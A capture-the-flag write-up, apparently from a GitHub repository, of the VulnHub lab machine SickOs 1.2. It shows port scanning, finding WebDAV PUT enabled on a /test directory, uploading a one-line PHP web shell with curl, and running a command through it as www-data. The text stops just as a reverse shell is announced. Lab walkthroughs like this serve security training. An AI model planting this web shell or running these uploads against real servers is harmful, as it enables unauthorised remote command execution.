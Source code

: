 # SickOs: 1.2

## 1.Get VM IP :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/8e84c627-dcce-4e28-9a2b-7f5309b7fc65)

The ip address is `192.168.127.230`, let's scan it.

## 2.Enumeration

```bash
Nmap scan report for 192.168.127.230
Host is up (0.00047s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:67:CE:D7 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting the web application has nothing :
- no robots.txt
- no special directory
- no nikto special results
- no directory traversal vector
- no session management
- no exploit for `lighttpd 1.4.28`

the only useful information from nikto is `/test` directory

this directory is a simple directory listing and has nothing interesting, but if we curl to this page :

```bash
root@kali: curl http://192.168.127.230/test -X OPTIONS -v

*   Trying 192.168.127.230:80...
* Connected to 192.168.127.230 (192.168.127.230) port 80
> OPTIONS /test HTTP/1.1
> Host: 192.168.127.230
> User-Agent: curl/8.3.0
> Accept: */*
> 
< HTTP/1.1 301 Moved Permanently
< DAV: 1,2
< MS-Author-Via: DAV
< Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
< Location: http://192.168.127.230/test/
< Content-Length: 0
< Date: Wed, 25 Oct 2023 17:00:21 GMT
< Server: lighttpd/1.4.28
< 
* Connection #0 to host 192.168.127.230 left intact
```

 we can see that allowed methods are strang and one of them is put, so we can simply test if we can upload a file here :

 ```bash
root@kali: curl 192.168.127.230/test/ -X PUT -T ./file.txt -v

*   Trying 192.168.127.230:80...
* Connected to 192.168.127.230 (192.168.127.230) port 80
> PUT /test/file.txt HTTP/1.1
> Host: 192.168.127.230
> User-Agent: curl/8.3.0
> Accept: */*
> Content-Length: 0
> 
< HTTP/1.1 200 OK
< Content-Length: 0
< Date: Wed, 25 Oct 2023 17:07:43 GMT
< Server: lighttpd/1.4.28
< 
* Connection #0 to host 192.168.127.230 left intact
```

 and yes we uploaded our file into the /test directory:

 ![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/496d9819-6b06-48ec-8ccb-cd4c45b58a7f)

now we can check to upload a php file to send command, i made a file called `shell.php` with the following content :

```php
<?php system($_GET["cmd"]);
```
and uploaded it :

```bash
root@kali: curl 192.168.127.230/test/ -X PUT -T ./shell.php -v

*   Trying 192.168.127.230:80...
* Connected to 192.168.127.230 (192.168.127.230) port 80
> PUT /test/shell.php HTTP/1.1
> Host: 192.168.127.230
> User-Agent: curl/8.3.0
> Accept: */*
> Content-Length: 28
> 
* We are completely uploaded and fine
< HTTP/1.1 201 Created
< Content-Length: 0
< Date: Wed, 25 Oct 2023 17:12:08 GMT
< Server: lighttpd/1.4.28
< 
* Connection #0 to host 192.168.127.230 left intact
```
 and yes we uploaded the file :

 ![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/1eea3aca-eb29-4136-a03f-c8fafd9bf618)


now let's try if we can run a command :

```bash
root@kali: curl 192.168.127.230/test/shell.php?cmd=id -v

*   Trying 192.168.127.230:80...
* Connected to 192.168.127.230 (192.168.127.230) port 80
> GET /test/shell.php?cmd=id HTTP/1.1
> Host: 192.168.127.230
> User-Agent: curl/8.3.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< X-Powered-By: PHP/5.3.10-1ubuntu3.21
< Content-type: text/html
< Transfer-Encoding: chunked
< Date: Wed, 25 Oct 2023 17:13:37 GMT
< Server: lighttpd/1.4.28
< 
uid=33(www-data) gid=33(www-data) groups=33(www-data) <-----------
* Connection #0 to host 192.168.127.230 left intact
```
yes we can run our command, now it's time for reverse shell.






